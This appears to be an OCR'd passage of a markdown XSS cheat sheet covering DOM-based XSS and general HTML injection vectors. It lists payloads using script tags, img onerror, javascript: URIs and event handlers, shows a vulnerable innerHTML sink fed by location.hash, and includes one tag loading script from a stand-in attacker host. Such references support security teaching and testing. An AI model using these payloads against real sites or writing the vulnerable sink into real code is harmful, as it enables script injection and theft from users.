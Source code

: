 
## DOM-based XSS

DOM-based XSS vulnerabilities occur when the client-side scripts write user-provided data to the Document Object Model (DOM). The data is subsequently read from the DOM by the web page and interpreted as HTML, leading to script execution. The vulnerability exists in the client-side code rather than the server-side code.

### Examples:

#### Modifying DOM via URL Fragment
- **Description:** Using the URL fragment (`#`) to inject script that is then processed by client-side JavaScript.
- **Payload (URL):** `http://example.com/page#<img src="invalid" onerror="alert('DOM-based XSS');">`
- **Client-side JavaScript (vulnerable example):**
  ```javascript
  // Vulnerable JavaScript that writes location.hash to the DOM
  document.getElementById('content').innerHTML = decodeURIComponent(window.location.hash.substring(1));
  ```

#### JavaScript eval() with User Input
- **Description:** Using `eval()` with unvalidated user input.
- **Payload:** User input that forms a malicious command, e.g., `alert('DOM-based XSS via eval')` passed to `eval()`.

---
## General XSS Vectors and Techniques

This section includes various XSS vectors and techniques that can be applied across different XSS types.

### HTML Injection

#### Script Tag
- **Description:** The most straightforward XSS vector.
- **Payload:** `<script>alert('XSS');</script>`
- **Alternative (external script):** `<script src="http://evil.com/xss.js"></script>`

#### Image Tag (`<img>`)
- **Description:** Using `onerror` or other event handlers with image tags.
- **Payload:** `<img src="x" onerror="alert('XSS from img onerror');">`
- **Payload (JavaScript source):** `<img src="javascript:alert('XSS from img javascript src');">` (Works in older browsers)

#### Anchor Tag (`<a>`)
- **Description:** Using `href` with `javascript:` URI scheme or event handlers like `onmouseover`.
- **Payload (javascript: URI):** `<a href="javascript:alert('XSS from a href');">Click me</a>`
- **Payload (event handler):** `<a href="#" onmouseover="alert('XSS from a onmouseover');">Hover over me</a>`
